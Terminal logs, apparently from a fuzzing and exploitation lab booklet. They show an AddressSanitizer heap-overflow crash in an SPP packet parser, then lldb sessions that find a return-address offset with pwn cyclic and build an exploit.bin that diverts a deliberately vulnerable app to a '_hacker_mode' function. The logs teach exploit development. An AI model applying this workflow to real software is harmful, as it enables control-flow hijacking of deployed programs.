INFO: seed corpus: files: 9 min: 1b max: 20b total: 89b rss: 42Mb
#10	INITED cov: 13 ft: 13 corp: 5/44b exec/s: 0 rss: 43Mb
=================================================================
==3181==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x602000000bfe at pc 0x000102681ae8 bp 0x00016dd79cd0 sp 0x00016dd79480
READ of size 68 at 0x602000000bfe thread T0
    #0 0x000102681ae4 in __asan_memcpy+0x3e4 (libclang_rt.asan_osx_dynamic.dylib:arm64+0x51ae4)
    #1 0x000102085630 in spp_unpack_packet spp.c:108
    #2 0x000102085b28 in LLVMFuzzerTestOneInput fuzz_spp_unpack.c:16
    #3 0x0001020a173c in fuzzer::Fuzzer::ExecuteCallback(unsigned char const*, unsigned long) FuzzerLoop.cpp:619
    #4 0x0001020a0ecc in fuzzer::Fuzzer::RunOne(unsigned char const*, unsigned long, bool, fuzzer::InputInfo*, bool, bool*) FuzzerLoop.cpp:516
    #5 0x0001020a2cf8 in fuzzer::Fuzzer::MutateAndTestOne() FuzzerLoop.cpp:765
    #6 0x0001020a3a04 in fuzzer::Fuzzer::Loop(std::__1::vector<fuzzer::SizedFile, std::__1::allocator<fuzzer::SizedFile>>&) FuzzerLoop.cpp:910
    #7 0x000102093398 in fuzzer::FuzzerDriver(int*, char***, int (*)(unsigned char const*, unsigned long)) FuzzerDriver.cpp:923
    #8 0x0001020bdd88 in main FuzzerMain.cpp:20
    #9 0x00018aa4eb94 in start+0x17b8 (dyld:arm64e+0x6b94)

0x602000000bfe is located 0 bytes after 14-byte region [0x602000000bf0,0x602000000bfe)
allocated by thread T0 here:
    #0 0x0001026951f8 in _Znam+0x6c (libclang_rt.asan_osx_dynamic.dylib:arm64+0x651f8)
    #1 0x0001020a1650 in fuzzer::Fuzzer::ExecuteCallback(unsigned char const*, unsigned long) FuzzerLoop.cpp:601
    #2 0x0001020a0ecc in fuzzer::Fuzzer::RunOne(unsigned char const*, unsigned long, bool, fuzzer::InputInfo*, bool, bool*) FuzzerLoop.cpp:516
    #3 0x0001020a2cf8 in fuzzer::Fuzzer::MutateAndTestOne() FuzzerLoop.cpp:765
    #4 0x0001020a3a04 in fuzzer::Fuzzer::Loop(std::__1::vector<fuzzer::SizedFile, std::__1::allocator<fuzzer::SizedFile>>&) FuzzerLoop.cpp:910
    #5 0x000102093398 in fuzzer::FuzzerDriver(int*, char***, int (*)(unsigned char const*, unsigned long)) FuzzerDriver.cpp:923
    #6 0x0001020bdd88 in main FuzzerMain.cpp:20
    #7 0x00018aa4eb94 in start+0x17b8 (dyld:arm64e+0x6b94)

SUMMARY: AddressSanitizer: heap-buffer-overflow spp.c:108 in spp_unpack_packet
Shadow bytes around the buggy address:
  0x602000000900: fa fa fd fd fa fa fd fd fa fa fd fa fa fa fd fa
  0x602000000980: fa fa fd fd fa fa fd fa fa fa fd fa fa fa fd fa
  0x602000000a00: fa fa fd fa fa fa fd fa fa fa fd fa fa fa fd fd
  0x602000000a80: fa fa fd fa fa fa fd fa fa fa fd fd fa fa fd fa
  0x602000000b00: fa fa fd fa fa fa fd fa fa fa fd fa fa fa fd fa
=>0x602000000b80: fa fa fd fd fa fa fd fa fa fa fd fd fa fa 00[06]
  0x602000000c00: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x602000000c80: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x602000000d00: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x602000000d80: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x602000000e00: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==3181==ABORTING
MS: 2 CopyPart-InsertRepeatedBytes-; base unit: 2306d05428fab2f484722ad27aaaa1c009ca1897
0x0,0x0,0x0,0x0,0x0,0x43,0x6f,0x72,0x40,0x0,0x73,0x43,0x73,0x43,
\000\000\000\000\000Cor@\000sCsC
artifact_prefix='./'; Test unit written to ./crash-69c04365cd93c356e17370b5ebf502e9dbd0aecd
Base64: AAAAAABDb3JAAHNDc0M=
[1]    3181 abort      ./resources/fuzzing/fuzzing/output/fuzz_spp_unpack -runs=5000                                                                                                      exit:134

```


```shell
00000001000004f8 T _hacker_mode
```


```shell
╭─[NULLDOGS-seecwinter | 192.168.0.20] ~/Desktop/Booklet_V1                                                                                                                               20:17:11
╰──▶ lldb resources/fuzzing/fuzzing/output/vulnerable_app
(lldb) target create "resources/fuzzing/fuzzing/output/vulnerable_app"
Current executable set to '/Users/astrobyte/Desktop/Booklet_V1/resources/fuzzing/fuzzing/output/vulnerable_app' (arm64).
(lldb) settings set target.input-path resources/fuzzing/fuzzing/pattern.bin
(lldb) run
Process 17351 launched: '/Users/astrobyte/Desktop/Booklet_V1/resources/fuzzing/fuzzing/output/vulnerable_app' (arm64)
[SYSTEM] Waiting for incoming RF packet...
[SYSTEM] Received 300 bytes. Passing to SPP builder...
Process 17351 stopped
* thread #1, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=257, address=0x6167636161666361)
    frame #0: 0x0000636161666361
error: memory read failed for 0x636161666200
(lldb) register read pc lr fp
      pc = 0x0000636161666361
      lr = 0x6167636161666361
      fp = 0x0000636161646361
(lldb)
```

```shell
╭─[NULLDOGS-seecwinter | 192.168.0.20] ~/Desktop/Booklet_V1                                                                                                                               20:18:30
╰──▶ pwn cyclic -l 0x61666361
218
```


```shell
╭─[NULLDOGS-seecwinter | 192.168.0.20] ~/Desktop/Booklet_V1                                                                                                                               20:19:51
╰──▶ python3 scripts/fuzz_exploit.py  218 0x00000001000004f8
Wrote 226 bytes to resources/fuzzing/fuzzing/exploit.bin
Offset: 218
Address: 0x1000004f8
```


```shell
╭─[NULLDOGS-seecwinter | 192.168.0.20] ~/Desktop/Booklet_V1                                                                                                                               20:23:10
╰──▶ lldb resources/fuzzing/fuzzing/output/vulnerable_app
(lldb) target create "resources/fuzzing/fuzzing/output/vulnerable_app"
Current executable set to '/Users/astrobyte/Desktop/Booklet_V1/resources/fuzzing/fuzzing/output/vulnerable_app' (arm64).
(lldb) settings set target.input-path resources/fuzzing/fuzzing/exploit.bin
(lldb) run
Process 24560 launched: '/Users/astrobyte/Desktop/Booklet_V1/resources/fuzzing/fuzzing/output/vulnerable_app' (arm64)
[SYSTEM] Waiting for incoming RF packet...
[SYSTEM] Received 226 bytes. Passing to SPP builder...
The mind that seeks knowledge cannot remain confined.
```

